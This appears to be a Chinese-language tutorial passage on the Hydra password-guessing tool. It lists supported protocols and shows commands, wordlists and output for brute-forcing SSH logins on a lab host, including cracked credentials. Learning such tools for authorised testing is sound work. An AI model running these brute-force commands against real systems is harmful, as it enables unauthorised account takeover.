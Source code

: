 支持的服务包括：adam6500, asterisk, cisco, cisco-enable, cvs, ftp, http-{head|get|post}, http-{get|post}-form, http-proxy, http-proxy-urlenum, icq, imap, irc, ldap2, ldap3[s], mssql, mysql(v4), nntp, pcanywhere, pcnfs, pop3, redis, rexec, rlogin, rpcap, rsh, rtsp, s7-300, smb, smtp, smtp-enum, snmp, socks5, teamspeak, telnet, vmauthd, vnc, xmpp

## Hydra使用实例
手动创建用户名字典和密码字典
```sh
$ cat user.txt 
admin
root
test
zhy
haha
$ cat pwd.txt 
admin
test
123456
666666
zhy
12345678
$ 
```

### 破解ssh
使用单个用户名密码
```sh
$ hydra 192.168.20.9 ssh -l root -p 12345678
ydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-21 23:41:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://192.168.20.9:22/
[22][ssh] host: 192.168.20.9   login: root   password: 12345678
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-21 23:41:46
```
上面的结果提示推荐使用`-t 4`，默认并发数为16


使用密码字典
```sh
$ hydra 192.168.20.9 ssh -L user.txt -P pwd.txt -t 4 -e ns
hydra ssh://192.168.20.9 -L user.txt -P pwd.txt -t 4 -e ns -f
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-21 23:50:05
[DATA] max 4 tasks per 1 server, overall 4 tasks, 40 login tries (l:5/p:8), ~10 tries per task
[DATA] attacking ssh://192.168.20.9:22/
[22][ssh] host: 192.168.20.9   login: root   password: 12345678
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-21 23:50:23
```
`-e ns`参数：尝试空密码
